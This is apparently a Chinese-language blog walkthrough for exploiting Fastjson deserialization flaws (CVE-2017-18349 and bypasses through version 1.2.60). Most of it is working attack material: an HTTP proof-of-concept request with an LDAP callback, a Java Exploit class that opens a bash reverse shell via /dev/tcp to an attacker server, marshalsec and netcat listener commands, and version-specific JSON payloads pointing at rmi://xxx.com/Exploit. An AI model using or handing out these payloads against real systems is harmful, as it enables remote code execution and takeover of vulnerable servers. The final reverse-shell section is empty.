 ## Fastjson反序列化复现过程

#### 00x01 先从CVE-2017-18349说起

##### 影响版本
fastjson <= 1.2.24
##### 漏洞原理
fastjson是一个非常流行的库，可以将数据在JSON和Java Object之间互相转换。fastjson在解析json的过程中，支持使用autoType来实例化某一个具体的类，并通过json来填充其属性值，由此可导致反序列命令执行漏洞。
##### 漏洞利用
通过dnslog进行漏洞验证，这里用Burpsuite自带的，修改dataSourceName为自己的地址，验证POC：

```
POST / HTTP/1.1
Host: 113.108.70.111:50070
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.13; rv:56.0) Gecko/20100101 Firefox/56.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/json
Content-Length: 109
Connection: keep-alive
Upgrade-Insecure-Requests: 1

{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"ldap://qjd16x8vi286vnax4cw5gttsijokc9.burpcollaborator.net/Exploit","autoCommit":true}
```

![](https://ccrraannee.github.io/images/fastjson/1.png)

##### 反弹shell，命令执行
首先在外网服务器开启http服务，这里用Python的SimpleHTTPServer模块
```
python -m SimpleHTTPServer 80
```

使用javac编译Exploit.java为Exploit.class
```
import javax.naming.Context;
import javax.naming.Name;
import javax.naming.spi.ObjectFactory;
import java.io.IOException;
import java.util.Hashtable;

public class Exploit{
    public Exploit() {}
 
    static
    {
        try {
            String[] cmds =  new String[]{"bash", "-c", "/bin/bash -i >& /dev/tcp/x.x.x./1234 0>&1"};
            Runtime.getRuntime().exec(cmds);
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
 
    public static void main(String[] args) {
        Exploit e = new Exploit();
        System.out.println("hello world");
    }
}
```

下载marshalsec一键启动rmi或者ldap服务

[https://github.com/mbechler/marshalsec](https://github.com/mbechler/marshalsec)

将Exploit.class放到和marshalsec同目录下，执行命令启动LDAP服务，也可以改为RMI，x.x.x.x为外网服务器ip，80端口为http服务启动端口。表示获取http://x.x.x.x:80/#Exploit.class内容作为payload，服务监听在1389端口。
```
java -cp ./marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://x.x.x.x:80/#Exploit 1389
```

在该服务器启动一个nc监听
```
nc -lvp 1234
```

最后发送POC：

![](https://ccrraannee.github.io/images/fastjson/4.png)

首先会在http服务端产生请求

![](https://ccrraannee.github.io/images/fastjson/2.png)

然后会在1389端口产生发送playlod信息

![](https://ccrraannee.github.io/images/fastjson/3.png)

最后会反弹shell

![](https://ccrraannee.github.io/images/fastjson/5.png)


#### 00x02 CVE-2017-18349后多种绕过方式


##### 各版本对应POC
1.适用于1.2.25-1.2.30、1.2.41(需开启autotype)
```
{"@type":"Lcom.sun.rowset.JdbcRowSetImpl;","dataSourceName":"rmi://xxx.com/Exploit", "autoCommit":true}
```
2.适用于1.2.25-1.2.30、1.2.41、1.2.42(需开启autotype)
```
{"@type":"LLcom.sun.rowset.JdbcRowSetImpl;;","dataSourceName":"rmi://xxx.com/Exploit", "autoCommit":true}
```
3.适用于1.2.41、1.2.42、1.2.43(需开启autotype)
```
{"@type":"[com.sun.rowset.JdbcRowSetImpl"[{"dataSourceName":"rmi://xxx.com/Exploit","autoCommit":true]}
```
4.适用于1.2.45(需开启autotype)-ibatis绕过方式
```
{"@type":"org.apache.ibatis.datasource.jndi.JndiDataSourceFactory","properties":{"data_source":"rmi://xxx.com/Exploit"}}
```
5.适用于<=1.2.47(不需开启autotype)-黑名单绕过方式
```
{"a":{"@type":"java.lang.Class","val":"com.sun.rowset.JdbcRowSetImpl"},"b":{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"rmi://xxx/Exploit","autoCommit":true}}}
```


> 参考链接

[浅谈Fastjson RCE漏洞的绕过史](https://www.freebuf.com/vuls/208339.html)


#### 00x03 1.2.60版本利用方式

##### 靶场环境
使用Spring Boot加载fastjson 1.2.60 （开启AutoType）

jdk 1.8.0_112
##### 附加组件
commons-configuration-1.4.jar（poc1用到的库），
commons-lang-2.6.jar（依赖库），
commons-collections-3.2.1.jar（依赖库）

ojdbc14-10.2.0.2.0.jar（poc2用到的库），
javax.resource-api-1.7.1.jar（依赖库）

##### POC
1.适用于<=1.2.60（需开启AutoType）
```
{"@type":"org.apache.commons.configuration.JNDIConfiguration","prefix":"rmi://x.x.x.x:1389/Exploit"}
```
2.适用于<=1.2.60（需开启AutoType）
```
{"@type":"oracle.jdbc.connector.OracleManagedConnectionFactory","xaDataSourceName":"rmi://x.x.x.x:1111/Exploit"}
```

3.根据1.2.47版本POC的构造方法，结合最新利用方式可以得出下列<=1.2.47多种绕过方法，均无需开启AutoType。
```
{"a":{"@type":"java.lang.Class","val":"org.apache.commons.configuration.JNDIConfiguration"},"b":{"@type":"org.apache.commons.configuration.JNDIConfiguration","prefix":"rmi://xxx/Exploit"}}
```
```
{"a":{"@type":"java.lang.Class","val":"oracle.jdbc.connector.OracleManagedConnectionFactory"},"b":{"@type":"oracle.jdbc.connector.OracleManagedConnectionFactory","xaDataSourceName":"rmi://xxx/Exploit"}}
```

##### 漏洞验证

![](https://ccrraannee.github.io/images/fastjson/6.png)

##### 反弹shell

